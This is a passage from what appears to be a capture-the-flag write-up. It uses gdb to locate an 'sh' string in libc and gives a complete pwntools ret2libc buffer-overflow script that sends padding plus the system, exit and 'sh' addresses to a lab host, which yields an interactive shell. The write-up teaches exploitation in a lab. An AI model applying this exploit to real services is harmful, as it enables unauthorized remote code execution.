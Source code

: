 > Any number of non-whitespace characters, stopping at the first [whitespace](https://www.cplusplus.com/isspace) character found. A terminating null character is automatically added at the end of the stored sequence.

That won’t work. I can try to look for just “sh” (which is actually looking for three bytes in a row, including the null byte at the end of the string):

```

(gdb) find 0xf7e32000,+5000000,"sh"     
0xf7f6ddd5
0xf7f6e7e1
0xf7f70a14
0xf7f72582
warning: Unable to access 16000 bytes of target memory at 0xf7fc8485, halting search.
4 patterns found.

```

The third one is the same address from the first search, just starting five bytes later. I can try any of the others.

### Pwn Script

I’ll pull all that together into a really simple Python script:

```

#!/usr/bin/env python3

from pwn import *

system_addr = p32(0xF7E4C060)
exit_addr = p32(0xF7E3FAF0)
sh_addr = p32(0xF7F6DDD5)

payload = b"A" * 212 + system_addr + exit_addr + sh_addr

r = remote("10.10.10.61", 32812)
r.recvuntil("Enter Bridge Access Code:")
r.sendline("picarda1")
r.recvuntil("Waiting for input:")
r.sendline("4")
r.recvuntil("Enter Security Override:")
r.sendline(payload)
r.interactive()

```

It creates the payload with 212 bytes of junk followed by the addresses. Then it uses [pwntools](https://github.com/Gallopsled/pwntools) to interact with the remote system, sending the access code and menu selection before the payload, and then dropping into an interactive shell.

It works:
